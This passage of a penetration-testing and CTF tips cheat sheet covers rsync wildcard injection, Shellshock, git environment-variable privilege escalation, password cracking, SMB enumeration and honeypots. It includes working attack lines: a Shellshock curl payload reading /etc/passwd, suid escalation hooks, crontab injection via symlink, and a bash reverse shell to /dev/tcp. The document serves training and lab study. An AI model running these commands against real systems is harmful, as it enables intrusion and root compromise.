    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

Now root will try to copy all C files to the remote server.

:: 

    [root@defensecode public]# rsync -t *.c foo:src/

    rsync: connection unexpectedly closed (0 bytes received so far) [sender]
    rsync error: error in rsync protocol data stream (code 12) at io.c(601) [sender=3.0.8]

Let's see what happened...

:: 

    [root@defensecode public]# ls -al
    total 76
    drwxrwxrwx.  2 user user  4096 Mar 28 04:49 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
    -rwxr-xr-x.  1 user user   225 Oct 28 17:37 header.php
    -rwxr-xr-x.  1 user user   117 Oct 28 17:36 inc.php
    -rwxr-xr-x.  1 user user   111 Oct 28 17:38 index.php
    -rwxr-xr-x.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c
    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

There were two files owned by user 'leon', as listed below.

:: 

    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 leon leon    31 Mar 28 04:45 shell.c

After 'rsync' execution, new file shell\_output.txt whose owner is root is created in same directory.

:: 

    -rw-r--r--.  1 root root   101 Mar 28 04:49 shell_output.txt

If we check its content, following data is found.

:: 

    [root@defensecode public]# cat shell_output.txt
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Trick is that because of the '\*.c' wildcard, 'rsync' got '-e sh shell.c' option on command line, and shell.c will be executed upon'rsync' start. Content of shell.c is presented below.

:: 

    [root@defensecode public]# cat shell.c
    /usr/bin/id > shell_output.txt

Tips and Tricks
===============

FTP Services
------------

If ftp anonymous login is provided or you have login details, you can download the contents by wget, (For anonymous login user password are not required)

::

  wget -rq ftp://IP --ftp-user=username --ftp-password=password

SSH
---

ssh_config
^^^^^^^^^^
If you know the password of the user, however, ssh is not allowing you to login, check ssh_config.

::

   ## Tighten security after security incident 
   ## root never gets to log in remotely PermitRootLogin no 
   ## Eugene & Margo can SSH in, no-one else allowed 
   AllowUsers example_user1 example_user2 
   ## SSH keys only but example_user1 can use a password 
   Match user example_user1 
   PasswordAuthentication yes 	
   ## End tighten security

SSH as SOCKS Proxy
^^^^^^^^^^^^^^^^^^
We can use ssh to have a socks proxy to connect to vnc, ssh, rdp if vm is hosting in another vm and then use remmina to access VNC.

:: 

  ssh -D localhost:9050 user@host

  -D [bind_address:]port Specifies a local “dynamic” application-level port forwarding.  This works by allocating a socket to listen to port on the local side, optionally bound to the specified bind_address.  Whenever a connection is made to this port, the connection is forwarded over the secure channel, and the application protocol is then used to determine where to connect to from the remote machine.  Currently the SOCKS4 and SOCKS5 protocols are supported, and ssh will act as a SOCKS server.  Only root can forward privileged ports. Dynamic port forwardings can also be specified in the configuration file.

and 
	
:: 
	
  proxychains4 remmina

HTTP
----

First things
^^^^^^^^^^^^

* View Source of the web-page (Ctrl+U).
* Inspect element of the web-page (F12).
* See if there is any hint in the title of the web page. (example: /Magic).
* Check the scroll button! Sometimes, there are too many lines and something hidden in the end of the webpage!
* Check for any long file names such admin_5f4dcc3b5aa765d61d8327deb882cf99.txt; Such long names can be base64-encoded, hex, md5 etc.
* If any login page is implemented asking for username and password. Check how it is implemented? Is it using any open-source authentication modules? If so, look if there are any default passwords for that.

htaccess - UserAgent
^^^^^^^^^^^^^^^^^^^^
When you see something like this "Someone's sup3r s3cr3t dr0pb0x - only me and Steve Jobs can see this content". Which says, only this can see me. Try to see what user-agent it is talking about. The way it is implemented is by use of .htaccess file

:: 

   cat .htaccess 
   BrowserMatchNoCase "iPhone" allowed

   Order Deny,Allow 
   Deny from ALL 
   Allow from env=allowed 
   ErrorDocument 403 “<H1>Super secret location - only me and Steve Jobs can see this content</H1><H2>Lol</H2>”

CGI-BIN Shellshock
^^^^^^^^^^^^^^^^^^
To understand shellshock few blogs can be referred such as `ShellShocked – A quick demo of how easy it is to exploit <https://www.surevine.com/shellshocked-a-quick-demo-of-how-easy-it-is-to-exploit/>`_ , `Inside Shellshock: How hackers are using it to exploit systems <https://blog.cloudflare.com/inside-shellshock/>`_

::

  curl -H "User-Agent: () { :; }; echo 'Content-type: text/html'; echo; /bin/cat /etc/passwd" http://192.168.56.2:591/cgi-bin/cat

It is important to understand what is cgi-bin which can be read from `Creating CGI Programs with Bash: Getting Started <http://www.team2053.org/docs/bashcgi/gettingstarted.html>`_ . Also the most important lines in this file are:

::

  echo "Content-type: text/html"
  echo ""
 
These two lines tell your browser that the rest of the content coming from the program is HTML, and should be treated as such. Leaving these lines out will often cause your browser to download the output of the program to disk as a text file instead of displaying it, since it doesn't understand that it is HTML!

**Shellshock Local Privilege Escalation**

Binaries with a setuid bit and calling (directly or indirectly) bash through execve, popen or system are tools which may be used to activate the Shell Shock bug.

::

  sudo PS1="() { :;} ;  /bin/sh" /home/username/suidbinary

Shellshock also affects DHCP as mentioned `Shellshock DHCP RCE Proof of Concept <https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/>`_ There's a metasploit module named "Dhclient Bash Environment Variable Injection (Shellshock)" for this.

XSS/ HTML Injection
^^^^^^^^^^^^^^^^^^^

The below will redirect the page to google.com

::
 
  <META http-equiv=“refresh” content=“0;URL=http://www.google.com”>

curl
^^^^

:: 

    -k, --insecure
    (SSL) This option explicitly allows curl to perform "insecure" SSL connections and transfers. All SSL connections are attempted to be made secure by using the CA certificate  bundle  installed  by  default.
    This makes all connections considered "insecure" fail unless -k, --insecure is used.

    -I, --head
    (HTTP/FTP/FILE) Fetch the HTTP-header only! HTTP-servers feature the command HEAD which this uses to get nothing but the header of a document. When used on an FTP or FILE file, curl displays the  file  size and last modification time only.

HTTP Referer
^^^^^^^^^^^^

The Referer request header contains the address of the previous web page from which a link to the currently requested page was followed. The Referer header allows servers to identify where people are visiting them from and may use that data for analytics, logging, or optimized caching.

::
   
  Referer: <url>

  <url> An absolute or partial address of the previous web page from which a link to the currently requested page was followed. URL fragments (i.e. "#section") are not included.

Data-URI
^^^^^^^^^
`Basics of HTTP Data URI <https://developer.mozilla.org/en-US/docs/Web/HTTP/Basics\_of\_HTTP/Data\_URIs>`_

Login-Pages
^^^^^^^^^^^
To test login pages, we may use burpsuite intruder and check for different length of response.

Delete Tags
^^^^^^^^^^^
Delete all lines between tags including tags:

::
   
  sed '/<tag>/,/<\/tag>/d' input.txt

.. Tip :: Useful when you are accessing the webpage using curl and their LFI and you want to remove the html/ body tags.

HTTP 404 Custom Page
^^^^^^^^^^^^^^^^^^^^
Sometimes, it's a good idea to look at 404 custom page also. There might be some information store.d

PHP
^^^

* PHP's preg_replace() function which can lead to RCE. It's deprecated in later revisions (PHP >= 5.5.0). If you think there's a pattern which is replaced in a text, refer `The unexpected dangers of preg_replace() <https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace>`_ 

run-parts
---------

run-parts runs all the executable files named, found in directory directory. This is mainly useful when we are waiting for the cron jobs to run. It can be used to execute scripts present in a folder.

:: 

  run-parts /etc/cron.daily

Sudoers file
------------

If the sudoers file contains: 
	
:: 

  secure\_path 
  Path used for every command run from sudo. If you don't trust the people running sudo to have a sane PATH environment	variable you may want to use this. Another use is if you want to have the “root path” be separate from the “user path”. Users in the group specified by the exempt\_group option are not affected by secure\_path. This option is not set by default.

  env\_reset If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO\_\* variables. Any variables in the caller's environment that match the env\_keep and env\_check lists are then added, followed by any variables present in the file specified by the env\_file option (if any). The contents of the env\_keep and env\_check lists, as modified by global Defaults parameters in sudoers, are displayed when sudo is run by root with the -V option. If the secure\_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

  mail\_badpass Send mail to the mailto user if the user running sudo does not enter the correct password. If the command the user is attempting to run is not permitted by sudoers and one of the mail\_all\_cmnds, mail\_always, mail\_no\_host, mail\_no\_perms or mail\_no\_user flags are set, this flag will have no effect. This flag is off by default.

Docker Security
---------------

Any user who is part of the docker group should also be considered root. Read `Using the docker command to root the host <http://reventlov.com/advisories/using-the-docker-command-to-root-the-host>`_ Older version of docker were vulnerable to Docker breakout. More details at `Shocker / Docker Breakout PoC <https://github.com/gabrtv/shocker>`_


Java keystore file
------------------

Refer `Java Keytool essentials working with java keystores <https://www.digitalocean.com/community/tutorials/java-keytool-essentials-working-with-java-keystores>`_ and `openssl essentials working with ssl certificates private keys and csrs <https://www.digitalocean.com/community/tutorials/openssl-essentials-working-with-ssl-certificates-private-keys-and-csrs#convert-certificate-formats>`_

Cracking MD5 Hashes
-------------------

Try `Crackstation <https://crackstation.net/>`_ or `ISC Reverse hash <https://isc.sans.edu/tools/reversehash.html>`_

Steghide
--------
Looking for hidden text in the images? Utilize steghide

::

  steghide version 0.5.1

  the first argument must be one of the following:
  embed, --embed          embed data
  extract, --extract      extract data
  info, --info            display information about a cover- or stego-file
  info <filename>       display information about <filename>
  encinfo, --encinfo      display a list of supported encryption algorithms
  version, --version      display version information
  license, --license      display steghide's license
  help, --help            display this usage information

.. Tip :: Sometimes, there is no password, so just press enter.

Git client Privilege Escalation
--------------------------------
Git clients (before versions 1.8.5.6, 1.9.5, 2.0.5, 2.1.4 and 2.2.1) and Mercurial clients (before version 3.2.3) contained three vulnerabilities that allowed malicious Git or Mercurial repositories to execute arbitrary code on vulnerable clients under certain circumstances. Refer `12 Days of HaXmas: Exploiting CVE-2014-9390 in Git and Mercurial <https://community.rapid7.com/community/metasploit/blog/2015/01/01/12-days-of-haxmas-exploiting-cve-2014-9390-in-git-and-mercurial>`_

In one of write-up, `Nicolas Surribas <http://devloop.users.sourceforge.net/>`_ has mentioned about two git environment variables GIT_SSH and GIT_TEMPLATE which can be utilized to do privilege escalation if git clone is performed using a suid binary. Imagine a suid binary utilized to do git clone from a remote directory.

GIT_SSH
^^^^^^^

If either (GIT_SSH or GIT_SSH_COMMAND) of these environment variables is set then git fetch and git push will use the specified command instead of ssh when they need to connect to a remote system. The command will be given exactly two or four arguments: the username@host (or just host) from the URL and the shell command to execute on that remote system, optionally preceded by -p (literally) and the port from the URL when it specifies something other than the default SSH port. $GIT_SSH_COMMAND takes precedence over $GIT_SSH, and is interpreted by the shell, which allows additional arguments to be included.  $GIT_SSH on the other hand must be just the path to a program (which can be a wrapper shell script, if additional arguments are needed).

::

  echo '#!/bin/bash' > cmd
  echo 'cp /root/flag.txt /tmp' >> cmd
  echo 'chmod 777 /tmp/flag.txt' >> cmd
  GIT_SSH=/home/username/cmd ./setuidbinary(utilizing git clone/ git fetch)

  or

  echo 'chown root:root /home/username/priv ; chmod 4755 /home/username/priv' > ssh

  where priv is binary compiled from suid.c

This basically changes the command from

::

  trace: built-in: git 'clone' 'ssh://root@machine-dev:/root/secret-project' '/mnt/secret-project/'

to

::

  trace: run_command: '/home/user/ssh' 'root@machine-dev' 'git-upload-pack '\''/root/secret-project'\'''

GIT_TEMPLATE_DIR
^^^^^^^^^^^^^^^^^
Files and directories in the template directory whose name do not start with a dot will be copied to the $GIT_DIR after it is created. Refer `Git-init <https://git-scm.com/docs/git-init>`_ 

::

  cp -r /usr/share/git-core/templates/ mytemplates
  cd mytemplates/hooks
  echo '#!/bin/bash' > post-checkout
  echo 'cp /root/flag /tmp/flag2' >> post-checkout
  echo 'chown username.username /tmp/flag2' >> post-checkout
  chmod +x post-checkout
  cd ../..
  GIT_TEMPLATE_DIR=/home/username/mytemplates/ ./setuidbinary( utilizing git clone/ git fetch)


Metasploit shell upgrade
------------------------

In metasploit framework, if we have a shell ( you should try this also, when you are trying to interact with a shell and it dies (happened in a VM), we can upgrade it to meterpreter by using sessions -u

:: 

   sessions -h
   Usage: sessions [options]
   
   Active session manipulation and interaction.

   OPTIONS:

   -u <opt>  Upgrade a shell to a meterpreter session on many platforms

Password Protected File
------------------------
	  
ZIP File
^^^^^^^^

run fcrackzip

:: 

    fcrackzip -D -u -p /tmp/rockyou2.txt flag.zip

    -D, --dictionary:    Select dictionary mode. In this mode, fcrackzip will read passwords from a file, which must contain one password per line and should be alphabetically sorted (e.g. using sort(1)).
    -p, --init-password string :  Set initial (starting) password for brute-force searching to string, or use the file with the name string to supply passwords for dictionary searching.
    -u, --use-unzip: Try to decompress the first file by calling unzip with the guessed password. This weeds out false positives when not enough files have been given.

rar2john
^^^^^^^^
We can get the password hash of a password protected rar file by using rar2john

:: 

    [root:~/Downloads]# rar2john crocs.rar
    file name: artwork.jpg
    crocs.rar:$RAR3$*1*35c0eaaed4c9efb9*463323be*140272*187245*0*crocs.rar*76*35:1::artwork.jpg

keepass2john
^^^^^^^^^^^^

::

 keepass2john user.kdbx 
 user:$keepass$*2*6000*222*f362b5565b916422607711b54e8d0bd20838f5111d33a5eed137f9d66a375efb*3f51c5ac43ad11e0096d59bb82a59dd09cfd8d2791cadbdb85ed3020d14c8fea*3f759d7011f43b30679a5ac650991caa*b45da6b5b0115c5a7fb688f8179a19a749338510dfe90aa5c2cb7ed37f992192*535a85ef5c9da14611ab1c1edc4f00a045840152975a4d277b3b5c4edc1cd7da

::

 john --wordlist wordlist --format=keepass hashfile

There are other \*2john thingy

::

 dmg2john
 gpg2john
 hccap2john
 keepass2john
 keychain2john
 keyring2john
 keystore2john
 kwallet2john
 luks2john
 pfx2john
 putty2john
 pwsafe2john
 racf2john
 rar2john
 ssh2john
 truecrypt_volume2john
 uaf2john
 wpapcap2john
 zip2john


Encrypted Files
---------------

Many times during the challenges, we do find encrypted files encrypted by Symmetric key encryption or RSA Public-Private Key encryption

Symmetric Key
^^^^^^^^^^^^^

If we have the encrypted file and the key to it. However, we don't know the encryption scheme such as aes-128-cbc, des-cbc.

We can use the code written by superkojiman in `De-ICE Hacking Challenge Part-1 <https://blog.techorganic.com/2011/07/19/de-ice-hacking-challenge-part-1/>`_ , it would tell you what encryption scheme is used and then we can run the command to retrieve the plaintext.

::

 ciphers=`openssl list-cipher-commands`
 for i in $ciphers; do
  openssl enc -d -${i} -in <encrypted-file> -k <password/ keyfile> > /dev/null 2>&1
  if [[ $? -eq 0 ]]; then
   echo "Cipher is $i: openssl enc -d -${i} -in <encrypted-file> -k <password/ keyfile> -out foo.txt"
   exit
  fi
 done

RSA Public-Private Key encryption
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

If we have found a weak RSA public, we can use `RsaCtfTool <https://github.com/Ganapati/RsaCtfTool>`_ uncipher data from weak public key and try to recover private key and then use 

::

 openssl rsautl -decrypt -inkey privatekey.pem -in <encryptedfile> -out key.bin 


Truecrypt Files
---------------

If you have a truecrypt volume to open and crack it's password, we can use truecrack to crack the password and veracrypt to open the truecrypt volume.

:: 

  truecrack --truecrypt <Truecrypt File> -k SHA512 -w <Wordlist_File>

and Veracrypt or cryptsetup to open the file.

::

  cryptsetup open --type tcrypt <Truecrypt> <MountName>

Windows
-------

Get-ChildItem Mode Values
^^^^^^^^^^^^^^^^^^^^^^^^^

'Mode' values returned by PowerShell's Get-ChildItem cmdlet?

::

 PS> gci|select mode,attributes -u

 Mode                Attributes
 ----                ----------
 d-----               Directory
 d-r---     ReadOnly, Directory
 d----l Directory, ReparsePoint
 -a----                 Archive

In any case, the full list is:

::

 d - Directory
 a - Archive
 r - Read-only
 h - Hidden
 s - System
 l - Reparse point, symlink, etc.

Zip or unzip using ONLY Windows' built-in capabilities? 
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Powershell way

::

 Add-Type -A System.IO.Compression.FileSystem
 [IO.Compression.ZipFile]::CreateFromDirectory('foo', 'foo.zip')
 [IO.Compression.ZipFile]::ExtractToDirectory('foo.zip', 'bar')

Alternate Data Stream
^^^^^^^^^^^^^^^^^^^^^
Sometimes, `Alternate Data Stream <https://blogs.technet.microsoft.com/askcore/2013/03/24/alternate-data-streams-in-ntfs/>`_ can be used to hide data in streams.

The output shows not only the name of the ADS and its size, but also the unnamed data stream and its size is also listed (shown as :$DATA).
::

 PS > Get-Item -Path C:\Users\Administrator\example.zip -stream *

 Filename: C:\Users\Administrator\example.zip

 Stream             Length
 ------             -------
 :$DATA             8
 pass.txt           4

Now, we know the name of the ADS, We can use the Get-Content cmdlet to query its contents.

::

 Get-Content -Path C:\Users\Administrator\example.zip -Stream pass.txt
 The password is Passw0rd!

Check a directory for ADS?

::

 gci -recurse | % { gi $_.FullName -stream * } | where stream -ne ':$Data'



Others
------
* It is important to check .profile files also. As it might contain scripts which are executed when a user is logged in. Also, it might be important to see how a application is storing password.

* If OPcache engine seemed to be enabled ( check from phpinfo.php file ) which may allow for exploitation (see the following article)https://blog.gosecure.ca/2016/04/27/binary-webshell-through-opcache-in-php-7/

* Identification of OS:
	
 :: 

  cat /etc/os-release

  NAME="Ubuntu" VERSION="16.04 LTS (Xenial Xerus)" ID=ubuntu
  ID\_LIKE=debian PRETTY\_NAME="Ubuntu 16.04 LTS" VERSION\_ID="16.04"
  HOME\_URL="http://www.ubuntu.com/"
  SUPPORT\_URL="http://help.ubuntu.com/"
  BUG\_REPORT\_URL="http://bugs.launchpad.net/ubuntu/"
  UBUNTU\_CODENAME=xenial

* Many times if IPv6 is enabled, probably you can utilize IPv6 to connect and bypass firewall restrictions ( If firewall is not implemented at IPv6 level - many times it is not ).

 * To find IPv6 from SNMP 

  :: 

   snmpwalk -v2c -c public prism 1.3.6.1.2.1.4.34.1.3    
   iso.3.6.1.2.1.4.34.1.3.2.48.1.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544320
   iso.3.6.1.2.1.4.34.1.3.2.48.2.0.0.0.0.0.0.0.0.0.0.0.0.0.1 = INTEGER: 335544321
   iso.3.6.1.2.1.4.34.1.3.2.48.2.18.52.86.120.171.205.0.0.0.0.0.0.0.1 = INTEGER: 335544323

  Now, convert the decimal value after "iso.3.6.1.2.1.4.34.1.3.2" to hex which would be your IPv6 address "3002:1234:5678:ABCD::1"

 .. ToDo ::  Mention examples for IPv6 connect


* Port 139 Open

 :: 

   smbclient -N -L 192.168.1.2 WARNING: The "syslog" option is deprecated
   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Sharename       Type      Comment
   ---------       ----      -------
   print$          Disk      Printer Drivers
   kathy           Disk      Fred, What are we doing here?
   tmp             Disk      All temporary files should be stored here
   IPC$            IPC       IPC Service (red server (Samba, Ubuntu))

   Domain=[WORKGROUP] OS=[Windows 6.1] Server=[Samba 4.3.9-Ubuntu]

   Server               Comment
   ---------            -------
   RED                  red server (Samba, Ubuntu)

   Workgroup            Master
   ---------            -------
   WORKGROUP            RED

   -N : If specified, this parameter suppresses the normal password prompt from the client to the user. This is useful when accessing a service that does not require a password. -L\|--list This option allows you to look at what services are available on a server. You use it as smbclient
   -L host and a list should appear. The -I option may be useful if your NetBIOS names don't match your TCP/IP DNS host names or if you are trying to reach a host on another network.


 If you want to access the share you might want to type

 :: 

   smbclient \\\\IP\\share\_name

 So, in the above example, it would be

 ::

   smbclient \\\\192.168.1.2\\kathy

 If port 139 is open, also run enum4linux, may be it would help get the user list
    
    


* Port 69 UDP:

  TFTP

  :: 

   get or put file

	    
* Ruby Best way to get quoted words / phrases out of the text

  :: 

    text.scan(/"([^"]\*)"/)

    
* Convert all text in a file from UPPER to lowercase
	
  :: 

   tr '[:upper:]' '[:lower:]' < input.txt > output.txt


* Remove lines longer than x or shorter than x

  :: 

   awk 'length($0)>x' filename or awk 'length($0)

* Remember, by default cewl generates a worldlist of one word. It by default ignore words in quotes. For example: if "Policy of Truth" is written in quotes. It will treat it as three words. However, what we wanted is to consider whole word between the quotes. By doing a small change in the cewl source code, we can get all the words in quotes, we also can remove spaces and changing upper to lower, we were able to create a small wordlist.

 
* Got a random string: Figure out what it could be? Hex encoded, base64 encoded, md5 hash. Use hash-identifier tool to help you.

* If a machine is running a IIS Server and we have found a way to upload a file. We can try asp web-shell or meterpreter of asp, aspx, aspx-exe executable formats from msfvenom.

* If we get a pcap file which contains 802.11 data and has auth, deauth and eapol key packets, most probably it's a packet-capture done using the wireless attack for WPA-Handshake. Use aircrack to see if there is any WPA handshake present.

 :: 

   13:06:21.922176 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.922688 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.923157 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.924224 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.924736 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:21.925723 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.933402 Probe Response (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit] CH: 11, PRIVACY
   13:06:21.933908 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.934427 Clear-To-Send RA:e0:3e:44:04:52:75 (oui Unknown) 
   13:06:21.991250 Authentication (Open System)-1: Successful
   13:06:21.992274 Authentication (Open System)-1: Successful
   13:06:21.992282 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.992795 Authentication (Open System)-2: 
   13:06:21.992787 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:21.994834 Assoc Request (community) [1.0* 2.0* 5.5* 11.0* 18.0 24.0 36.0 54.0 Mbit]
   13:06:21.994843 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:21.996890 Assoc Response AID(1) : PRIVACY : Successful
   13:06:21.996882 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.011783 Action (e8:50:8b:20:52:75 (oui Unknown)): BA ADDBA Response
   13:06:22.012314 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.012827 BAR RA:e8:50:8b:20:52:75 (oui Unknown) TA:c4:12:f5:0d:5e:95 (oui Unknown) CTL(4) SEQ(0) 
   13:06:22.013330 BA RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.014874 CF +QoS EAPOL key (3) v2, len 117
   13:06:22.015379 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.030226 CF +QoS EAPOL key (3) v1, len 117
   13:06:22.030746 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.043034 CF +QoS EAPOL key (3) v2, len 175
   13:06:22.043026 Acknowledgment RA:c4:12:f5:0d:5e:95 (oui Unknown) 
   13:06:22.054803 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056338 CF +QoS EAPOL key (3) v1, len 95
   13:06:22.056859 Acknowledgment RA:e8:50:8b:20:52:75 (oui Unknown) 
   13:06:22.064514 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.065030 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.079878 Clear-To-Send RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.080901 Acknowledgment RA:18:f6:43:9c:dc:5f (oui Unknown) 
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.108096 DeAuthentication (c4:12:f5:0d:5e:95 (oui Unknown)): Class 3 frame received from nonassociated station
   13:06:22.110144 DeAuthentication (e8:50:8b:20:52:75 (oui Unknown)): Class 3 frame received from nonassociated station

* Transfer an image
	
 :: 

   base64 flair.jpg 
   Copy output 
   vi flair 
   Paste the clipboard 
   base64 -d flair > flair.jpg

* Have a web-accessible git ? utilize `dvcs-ripper <https://github.com/kost/dvcs-ripper>`_ to rip web accessible (distributed) version control systems: SVN, GIT, Mercurial/hg, bzr. It can rip repositories even when directory browsing is turned off. Eric Gruber has written a blog on `Dumping Git Data from Misconfigured Web Servers <https://blog.netspi.com/dumping-git-data-from-misconfigured-web-servers/>`_ providing good walkthru.

* It's always important to find, what's installed on the box:

 :: 

   dpkg-query -l 

 or using wild cards

 :: 

   dpkg-query -l 'perl*'

* It's always important to note down all the passwords found during the process of exploiting a vulnerable machine as there is a great possibility that passwords would be reused.
 
* If you have .jar file, Probably use jd-gui to decompile and view the class file. 


* Find recently modified files:

  ::

   find / -mmin -10 -type f 2>/dev/null

  The above will show you which files have been modified within the last 10 minutes, which could help you find out whether an important config file, or log file has been modified.

* Getting a reverse shell from:

 * Drupal: Now that we have access to the Drupal administration panel, we can gain RCE by enabling the PHP filter module. This will allow us to execute arbitrary code on the site by inserting a specifically crafted string into page content. After enabling the module, I proceed to allow code to be executed by all users under the configuration screen for the module. Once enabled we need to give permission to use it so in people -> permissions check "Use the PHP code text for. 
   
   Next, we create a new block (by going to Blocks, under the Structure menu) with the following content. We make sure to select PHP code from the Text format drop down. Taken from `Droopy Vulnhub WriteUp <https://g0blin.co.uk/droopy-vulnhub-writeup/>`_
   Drupal settings file location: /var/www/html/sites/default/settings.php
 
 * WordPress : If we have found a username and password of wordpress with admin privileges, we can upload a php meterpreter. One of the possible way is to do Appearance > Editor > Possibly edit 404 Template.

* If the only port which is open is 3128, check for the open proxy and route the traffic via the open proxy.

* Running Asterisk/ Elastix/ FreePBX or any PBX, probably try `SIPVicious <https://github.com/EnableSecurity/sipvicious>`_  suite is a set of tools that can be used to audit SIP based VoIP systems. Running http:\\IP\panel should provide us valid extensions.

* Sharepoint running? Probably, check `SPartan <https://github.com/sensepost/SPartan>`_ Frontpage and Sharepoint fingerprinting and attack tool and `SharePwn <https://github.com/0rigen/SharePwn>`_ SharePoint Security Auditor.

* Want to send a email via the SMTP server something like SMTP-Open-Relay utilize `Swaks <http://www.jetmore.org/john/code/swaks/>`_ Swiss Army Knife for SMTP.

  ::

   swaks --to xxxxx@example.com --from xxxxxee@example.edu --server 192.168.110.105:2525 --body "Hey Buddy How are you doing" --header "Subject: Hello! Long time"

* Got /etc/shadow file?, utilize /etc/passwd with unshadow command and use john or cudahashcat to crack passwords.

 ::

  unshadow passwd shadown


* In one of the VM, one of the task was to capture the RAM of the system by using LiME ~ Linux Memory Extractor ( which is executed by suid binary with root privileges ). Let's say the ramdump was saved at

  ::

   /tmp/ramdump

  If, you create a symlink from /tmp/ramdump to /etc/crontab

  ::

   ln -s /etc/crontab /tmp/ramdump

  Now, when the ramdump is taken, lime will now dump the content of RAM straight into /etc/crontab. As crontab will ignore everything which doesn’t match the correct syntax. If the memory contains a injected string such as 

  ::

   cat cron.py
   print "* * * * * root /bin/bash /home/username/evilscript"
  
  the injected string will end up in /etc/crontab will be executed.

  The contents of evilscript can be

  ::

   /bin/bash -i >& /dev/tcp/IP/Port 0>&1

  which will provide the root shell to the attacker. Thanks to TheColonial :)
   
* Handy Stuff

 * Utilize xxd to convert hex to ascii

  ::

   xxd -r -p
   -p | -ps | -postscript | -plain : output in postscript continuous hexdump style. Also known as plain hexdump style.
   -r | -revert : reverse operation: convert (or patch) hexdump into binary.  If not writing to stdout, xxd writes into its output file without truncating it. Use the combination -r -p to read plain hexadecimal dumps without line number information and without a particular column layout. Additional Whitespace and line-breaks are allowed anywhere.

 * Use python

  * binascii.unhexlify(hexstr) to convert hex to string
  * base64.decodestring(str) to decode base64 string

 * Getting out of more
  
  If in somecase, we are unable to ssh into the machine or being logged out when trying ssh, check the /etc/passwd file for the shell defined for that user.

  ::
   
    cat /etc/passwd | grep user1
    user1:x:11026:11026:user level 1:/home/user1:/usr/bin/showtext

  Here Instead of /bin/bash, user1 is using /usr/bin/showtext, which is apparently not a shell. Let’s look at the content of the file

  ::

    cat /usr/bin/showtext
    #!/bin/sh
    more ~/text.txt
    exit 0

  In such cases, First, minimize your terminal so that when we are logged into user1 via ssh command, the large text will force a “more” message to prompt us to continue the output. Now that we have forced the terminal to prompt us to continue the display via “more” or “–More–(50%)” in this case, press “v” to enter “vim”, a built-in text editor on Unix machines. Once, we have vim interface, use :shell to get a shell.

 * List all the files together

  ::

   find /home -type f -printf "%f\t%p\t%u\%g\t%m\n" 2>/dev/null | column -t
 

Cyber-Deception
===============

Wordpot
-------

`Wordpot <https://github.com/gbrindisi/wordpot>`_ : Wordpot is a Wordpress honeypot which detects probes for plugins, themes, timthumb and other common files used to fingerprint a wordpress installation.

::

 python /opt/wp/wordpot.py --host=$lanip --port=69 --title=Welcome to XXXXXXX Blog Beta --ver=1.0 --server=XXXXXXXWordpress

FakeSMTP
--------

`FakeSMTP <http://nilhcem.com/FakeSMTP/>`_ : FakeSMTP is a Free Fake SMTP Server with GUI for testing emails in applications easily.

::

  java -jar /opt/fakesmtp/target/fakeSMTP-2.1-SNAPSHOT.jar -s -b -p 2525 127.0.0.1 -o /home/username

Rubberglue
----------

